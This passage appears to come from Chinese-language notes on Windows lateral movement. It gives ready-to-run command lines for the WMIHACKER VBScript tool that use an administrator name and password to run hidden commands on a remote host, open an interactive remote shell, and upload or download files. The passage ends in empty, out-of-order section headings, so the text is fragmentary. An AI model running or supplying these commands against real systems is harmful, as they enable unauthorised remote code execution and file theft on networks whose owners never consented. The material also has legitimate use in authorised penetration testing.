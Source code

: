 2、命令执行后不显示任何结果
cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo &gt; c:\1.txt" 0

3、获取交互式shell
cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!"

4、文件上传：将本地calc.exe复制到远程主机c:\calc.exe
cscript wmihacker_0.6.vbs /upload 172.16.94.187 administrator "Password!" 
"c:\windows\system32\calc.exe" "c:\calc"

5、文件下载：将远程主机calc.exe下载到本地c:\calc.exe
cscript wmihacker_0.6.vbs /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe"</code></pre>



#### 2、impacket-wmiexec

---


#### 4、WMIHACKER

 

 
